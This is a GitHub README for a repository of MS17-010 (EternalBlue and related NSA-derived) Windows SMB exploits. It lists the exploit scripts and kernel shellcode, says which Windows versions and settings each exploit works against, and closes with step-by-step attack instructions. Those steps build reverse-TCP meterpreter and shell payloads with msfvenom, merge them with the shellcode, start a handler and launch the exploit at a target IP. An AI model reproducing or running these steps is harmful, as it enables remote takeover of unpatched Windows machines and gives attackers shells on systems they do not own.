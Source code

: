 # MS17-010

This repository is for public my work on MS17-010. I have no plan to do any support. **All support issues will not get response from me**.

## Files

 * **BUG.txt** MS17-010 bug detail and some analysis
 * **checker.py** Script for finding accessible named pipe
 * **eternalblue_exploit7.py** Eternalblue exploit for windows 7/2008
 * **eternalblue_exploit8.py** Eternalblue exploit for windows 8/2012 x64
 * **eternalblue_poc.py** Eternalblue PoC for buffer overflow bug
 * **eternalblue_kshellcode_x64.asm** x64 kernel shellcode for my Eternalblue exploit. This shellcode should work on Windows Vista and later
 * **eternalblue_kshellcode_x86.asm** x86 kernel shellcode for my Eternalblue exploit. This shellcode should work on Windows Vista and later
 * **eternalblue_sc_merge.py** Script for merging eternalblue x86 and x64 shellcode. Eternalblue exploit, that support both x86 and x64, with merged shellcode has no need to detect a target architecture
 * **eternalchampion_leak.py** Eternalchampion PoC for leaking info part
 * **eternalchampion_poc.py** Eternalchampion PoC for controlling RIP
 * **eternalchampion_poc2.py** Eternalchampion PoC for getting code execution
 * **eternalromance_leak.py** Eternalromance PoC for leaking info part
 * **eternalromance_poc.py** Eternalromance PoC for OOB write
 * **eternalromance_poc2.py** Eternalromance PoC for controlling a transaction which leading to arbitrary read/write
 * **eternalsynergy_leak.py** Eternalsynergy PoC for leaking info part
 * **eternalsynergy_poc.py** Eternalsynergy PoC for demonstrating heap spraying with large paged pool
 * **infoleak_uninit.py** PoC for leaking info from uninitialized transaction data buffer
 * **mysmb.py** Extended Impacket SMB class for easier to exploit MS17-010 bugs
 * **npp_control.py** PoC for controlling nonpaged pool allocation with session setup command
 * **zzz_exploit.py** Exploit for Windows 2000 and later (requires access to named pipe)


## Anonymous user

Anonymous user (null session) get more restriction on default settings of new Windows version. To exploit Windows SMB without authentication, below behavior should be aware.

* Since Windows Vista, default settings does not allow anonymous to access any named pipe
* Since Windows 8, default settings does not allow anonymous to access IPC$ share (IPC$ might be acessible but cannot do much)


## About NSA exploits

* **Eternalblue** requires only access to IPC$ to exploit a target while other exploits require access to named pipe too. So the exploit always works against Windows < 8 in all configuration (if tcp port 445 is accessible). However, Eternalblue has a chance to crash a target higher than other exploits.
* **Eternalchampion** requires access to named pipe. The exploit has no chance to crash a target.
* **Eternalromance** requires access to named pipe. The exploit can target Windows < 8 because the bug for info leak is fixed in Windows 8. The exploit should have a chance to crash a target lower than Eternalblue. I never test a reliable of the exploit.
* **Eternalsynergy** requires access to named pipe. I believe this exploit is modified from Eternalromance to target Windows 8 and later. Eternalsynergy uses another bug for info leak and does some trick to find executable memory (I do not know how it works because I read only output log and pcap file).

## Instructions to perform exploit

**Step 1:** `git clone https://github.com/w0rtw0rt/MS17-010.git && cd MS17-010/`

**Step 1a:** gedit/vi/nano eternalblue_exploit8.py and change lines 52 and 53 to match the account authentication
example:
USERNAME='Guest'
PASSWORD=''

**Step 2:** cd shellcode and type `nasm -f bin eternalblue_kshellcode_x64(x86).asm`

**Step 3:** `msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o meterpreter_(IP)_msf.bin EXITFUNC=thread LHOST=(IP) LPORT=(Port)`

**Step 3a:** `msfvenom -p windows/x64/shell/reverse_tcp -f raw -o shell_(IP)_msf.bin EXITFUNC=thread LHOST=(IP) LPORT=(Port)`

**Step 4:** `cat eternalblue_kshellcode_x64(x86) shell_(IP)_msf.bin (OR meterpreter_(IP)_msf.bin) > (payloadname).bin`

**Step 5:** Set up exploit/multi/handler in a new terminal window with matching payload you created above and run it

**Step 6:** `cd MS17-010`

**Step 7:** `python eternalblue_exploit8.py (target IP) (payloadname).bin (GROOM COUNT)`

**-side note-** Groom count will typically function with a "200" for windows 8/2012r2 but *might* crash the system - use at your own risk

**Step 8:** shell/meterpreter should be returned if "Guest" account is active or entered credentials worked.
